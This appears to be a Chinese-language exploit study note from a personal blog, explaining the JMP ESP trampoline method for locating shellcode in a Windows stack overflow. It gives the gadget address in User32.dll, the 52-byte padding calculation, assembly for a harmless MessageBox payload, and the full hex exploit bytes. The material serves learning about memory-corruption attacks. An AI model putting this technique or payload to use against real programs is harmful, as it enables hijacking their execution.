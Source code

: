 ```yaml
---
title: 漏洞学习笔记-002-ESP跳板
description: ShellCode的动态定位法-ESP跳板法
slug: exploit-002
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


> [点击此处下载本文附可执行程序，shellcode文件](/assets/ExpStd/ExpStd02.zip)

本文来源：[Moeomu的博客](/p/exploit-002/)

## 栈空间移位

ShellCode在内存中往往是动态的，并非直接填写一个定值  
也就是前一篇中buffer数组的栈空间地址，并非总是个定值  
当CPU执行到此地址时，有可能触发无效指令异常导致程序崩溃，ShellCode无法运行

### 原理

从程序已加载的系统DLL中查找一个`JMP ESP`指令的地址，用此地址去淹没返回地址  
这样既能精准定位shellcode的位置，又能适应栈空间的动态变化  
栈的地址是上小下大，CPU的执行顺序是小地址到大地址，栈淹没同样从小地址淹没到大地址  
这样只要将前面的一段空间淹没为无意义数据，将ShellCode的开始恰好淹没在`[ESP]`处，就可以达到ShellCode动态寻址

### ShellCode编写

#### 结构

无用数据+`JMP ESP`地址(此地址恰好淹没到函数返回地址)+命令代码(用于测试，MessageBox弹窗)

> 说明：
>
> - `retn`后将会跳到`JMP ESP`处，随后ESP + 4
> - `JMP ESP`后将会正好跳到命令代码处

#### 必要数据

- `JMP ESP`地址：位于User32.dll中`0x77D29353`(没必要必须是原版命令，只要搜二进制`0xFFE4`即可)
- 垃圾数据大小：52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### 最终Code

> 以下是需要执行的命令代码

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> 最终的ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
